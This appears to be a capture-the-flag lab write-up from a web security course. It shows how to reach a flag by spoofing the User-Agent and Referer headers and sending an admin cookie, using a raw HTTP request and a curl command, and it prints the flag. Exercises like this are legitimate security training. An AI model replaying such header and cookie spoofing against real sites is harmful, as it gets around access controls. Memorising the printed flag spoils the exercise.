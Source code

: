 # Exploit
1. Visit the URL: `/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c` 
   (linked at the bottom of the main page).
2. Check the source code of the page to find the following comments:
   - "You must cumming from : https://www.nsa.gov/ to go to the next step"
   - "Let's use this browser : ft_bornToSec. It will help you a lot."
3. These comments suggest modifying the `User-Agent` and `Referer` headers in the HTTP request.

### Steps:
Send an HTTP request with the following headers:

GET /index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c HTTP/1.1 Host: 192.168.0.30 User-Agent: ft_bornToSec Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8 Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3 Accept-Encoding: gzip, deflate Referer: https://www.nsa.gov/ Connection: keep-alive Cookie: I_am_admin=68934a3e9455fa72420237eb05902327 Upgrade-Insecure-Requests: 1 Cache-Control: max-age=0, no-cache Pragma: no-cache

bash
Toujours afficher les détails

Copier le code

Alternatively, use the following `curl` command:

```bash
curl 'http://x.x.x.x/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c' \\
-H 'User-Agent: ft_bornToSec' \\
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' \\
-H 'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' \\
--compressed \\
-H 'Referer: https://www.nsa.gov/' \\
-H 'Connection: keep-alive' \\
-H 'Cookie: I_am_admin=68934a3e9455fa72420237eb05902327' \\
-H 'Upgrade-Insecure-Requests: 1' \\
-H 'Cache-Control: max-age=0, no-cache' \\
-H 'Pragma: no-cache' | grep 'The flag is'
The HTTP response will contain the flag: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188.